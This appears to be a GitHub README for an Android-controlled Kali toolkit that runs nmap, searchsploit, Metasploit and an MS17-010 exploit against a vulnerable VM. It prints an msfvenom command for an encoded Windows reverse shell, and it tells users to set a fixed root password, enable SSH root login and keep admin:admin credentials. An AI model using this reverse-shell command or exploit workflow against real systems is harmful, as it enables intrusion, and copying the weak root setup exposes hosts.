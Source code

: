 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.<br>
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.<br>
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.<br>
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.<br>

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```

Linux Bash:<br>
Type the IP address of kali and type your bash command on it, than you can execute.<br>
If you know how to use the ssh, then you should be know how to use this modulel.<br>

Example Command:
```
ifconfig
```

Nmap Module:<br>
Type the IP address of kali and target and setup the option then you can execute.<br>
Scan report will below the console.<br>


Searchsploit Module:<br>
Type the vulnerabilities number or CMS/Service name and version.<br>
If the input text is vulnerable, than it will show the exploit.<br>

Metasploit Module:<br>
Type the RHost LHost to input box and select a exploit module, then you can exploit.<br>
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.<br>
**The Target is not 100% can be exploit**


My Email:aifred0729@yahoo.com<br>
My Facebook:https://www.facebook.com/profile.php?id=100009717251061<br>

Try Harder!!

